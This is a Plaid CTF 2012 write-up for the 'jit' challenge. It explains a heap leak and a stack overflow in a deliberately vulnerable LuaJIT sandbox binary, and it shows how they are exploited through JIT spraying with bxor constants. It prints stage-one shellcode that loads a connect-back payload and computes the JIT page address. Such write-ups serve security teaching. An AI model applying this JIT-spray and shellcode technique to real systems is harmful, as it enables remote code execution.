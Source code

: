 ```yaml
---
title: jit source and writeup
author: ricky
layout: post
categories:
  - Write-Ups
---
```

This is the third of a series of posts where we’ll give our solutions (as well as source code) for some problems from Plaid CTF 2012. 

## Source code

  * [jit.c][1] 
      * [sandbox.lua][2] </ul> 
        ## Overview
        
        jit was a 64-bit C binary (PIE) running under xinetd on a Debian machine with NX and ASLR enabled. The machine that this was running on had /bin/sh chmodded 700 (otherwise, certain unfortunate 64-bit libc gadgets made this too easily solvable). 
        
        <!--more-->
        
        The program basically reads in a lua script, closes stdin, then runs it inside a restricted lua environment with only selected functions available. 
        
        ## Vulnerabilities
        
        Since the main goal of this problem was to get people to place shellcode on the JIT page, the vulnerabilities were a little bit obvious and contrived. In addition to a restricted list of standard lua functions, two C functions frob and fry were added to the environment. 
        
        Here is an excerpt of the frob function: 
        
        <pre>buf = malloc(len);
    ...
    strncpy(buf, arg, len);
    memfrob(buf, len);
    lua_pushstring(L, buf);
</pre>
        
        This can be used to leak some memory off of the heap. 
        
        The fry function calls a dofry function which looks like this: 
        
        <pre>// Only called it len &lt; 32
void dofry(lua_State *L, const char *s, size_t len) {
    char buf[8];

    strncpy(buf, s, len);
    buf[sizeof(buf)-1] = '\0';
    strfry(buf);
    lua_pushstring(L, buf);
}
</pre>
        
        which contains a pretty obvious stack buffer overflow (with just enough bytes to overwrite the return address). 
        
        ## Exploitation
        
        To exploit these vulnerabilities, we need to have our script place shellcode on the JIT page, find the address where this shellcode is located, then use the buffer overflow to set %rip to the address of the shellcode on the JIT page. 
        
        ### Getting shellcode on the JIT page
        
        Unfortunately, luajit does some optimizations which made it difficult to use standard arithmetic operators to get contants on the JIT page. However, after some experimentation, I found that bit.bxor could be used to get 4 byte constants on the JIT page. In order to make sure that the code got jitted, I placed the xors inside of a loop with 4096 iterations: 
        
        <pre>for i = 1, 4096 do
    x = b + bit.bxor(x, 0x41414141)
    x = b + bit.bxor(x, 0x42424242)
    x = b + bit.bxor(x, 0x43434343)
    ...
end
</pre>
        
        This causes code like the following to show up on the JIT page: 
        
        <pre>fe63:   81 f2 41 41 41 41       xor    $0x41414141,%edx
    fe69:   03 d1                   add    %ecx,%edx
    fe6b:   81 f2 42 42 42 42       xor    $0x42424242,%edx
    fe71:   03 d1                   add    %ecx,%edx
    fe73:   81 f2 43 43 43 43       xor    $0x43434343,%edx
    fe79:   03 d1                   add    %ecx,%edx
</pre>
        
        In order to get useful shellcode running with this, we need to jump over the <tt>add %ecx,%edx</tt> and the beginning of the xor instruction to end up in our constant again. To do this, we make each of constants something of the form 0x04ebXXXX. The <tt>eb 04</tt> jumps 4 bytes past the end of the jump instruction, which skips over the <tt>add %ecx,%edx</tt> and the beginning of the xor instruction, and lands us at the constant we used for the next xor instruction. This means that for each constant that we xor, we get 2 bytes in which to put instructions for our shellcode. 
        
        The shellcode that I ended up using looks something like this: 
        
        <pre>0:   6a 00                   pushq  $0x0
   2:   6a 00                   pushq  $0x0
   4:   5f                      pop    %rdi
   5:   58                      pop    %rax
   6:   b4 10                   mov    $0x10,%ah
   8:   50                      push   %rax
   9:   5e                      pop    %rsi
   a:   6a 07                   pushq  $0x7
   c:   5a                      pop    %rdx
   d:   6a 22                   pushq  $0x22
   f:   41 5a                   pop    %r10
  11:   6a ff                   pushq  $0xffffffffffffffff
  13:   41 58                   pop    %r8
  15:   6a 00                   pushq  $0x0
  17:   41 59                   pop    %r9
  19:   6a 09                   pushq  $0x9
  1b:   58                      pop    %rax
  1c:   0f 05                   syscall # mmap(NULL, 4096, 7, 0x22, -1, 0)
  1e:   50                      push   %rax
  1f:   5f                      pop    %rdi
  20:   59                      pop    %rcx # pop values off the stack until we get to the 2nd argument of dofry
  21:   59                      pop    %rcx
  22:   59                      pop    %rcx
  23:   59                      pop    %rcx
  24:   b3 20                   mov    $0x20,%bl
  26:   00 d9                   add    %bl,%cl # add 32 to the 2nd argument of dofry (this is where we put our connect back shellcode)
  28:   51                      push   %rcx
  29:   5e                      pop    %rsi
  2a:   6a 00                   pushq  $0x0
  2c:   59                      pop    %rcx
  2d:   b1 ff                   mov    $0xff,%cl
  2f:   f3 a4                   rep movsb %ds:(%rsi),%es:(%rdi) # copy 255 bytes of the shellcode onto our RWX page
  31:   ff e0                   jmpq   *%rax
</pre>
        
        Since every instruction is at most 2 bytes long, we can put them all on the JIT page using our 4 byte constants. This shellcode mmaps an RWX page, copies some code to it, then jumps to it. Keeping in mind that this will executed via the fry buffer overflow, the shellcode copies more shellcode from the 2nd argument to dofry, which is a string we control. 
        
        ### Finding the JIT page
        
        Using the memory disclosure in the frob function, we can leak a libc address. However, getting from that to a JIT page address requires a little bit of code reading. 
        
        In order to keep the jit page within relative jump range from the libluajit code, libluajit places JIT pages at a location relative to the location of libluajit. The code (in lj_mcode.c) looks something like this (hint is the address passed to mmap): 
        
        <pre>/* Get memory within relative jump distance of our code in 64 bit mode. */
static void *mcode_alloc(jit_State *J, size_t sz)
{
  ... 
  uintptr_t target = (uintptr_t)(void *)lj_vm_exit_handler &#038; ~(uintptr_t)0xffff;
  ...
  const uintptr_t range = (1u &lt;&lt; LJ_TARGET_JUMPRANGE) - (1u &lt;&lt; 21);
  ...
    /* Next try probing pseudo-random addresses. */
    do {
      hint = (0x78fb ^ LJ_PRNG_BITS(J, 15)) &lt;&lt; 16;  /* 64K aligned. */
    } while (!(hint + sz &lt; range));
    hint = target + hint - (range>>1);
  ...
}
</pre>
        
        The call to LJ\_PRNG\_BITS looks a little scary, but it turns out the PRNG state is always initialized to 0, so it is fully predictable. It turns out that on our system, this loop terminates after 1 iteration (and LJ\_PRNG\_BITS returns 0), so we can calculate the location of the JIT page by: 
        
        <pre>jitpage_addr = target_addr + 0x78fb0000 - 0x3ff00000
</pre>
        
        where <tt>target_addr</tt> is <tt>lj_vm_exit_handler &#038; ~0xffff</tt>. Since the distance between libc and libluajit is constant, we can use our libc address leak to determine exactly where the JIT page will be located. 
        
        ### Putting it together
        
        Now we have shellcode on the JIT page, and we can calculate where it is. We can also control %rip using the fry buffer overflow, so all we need to do is combine all of this into a lua program that performs the exploit. Here is our exploit for this problem: [exploit.lua][3].

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/05/jit.c
 [2]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/05/sandbox.lua_.txt
 [3]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/05/exploit.lua_.txt
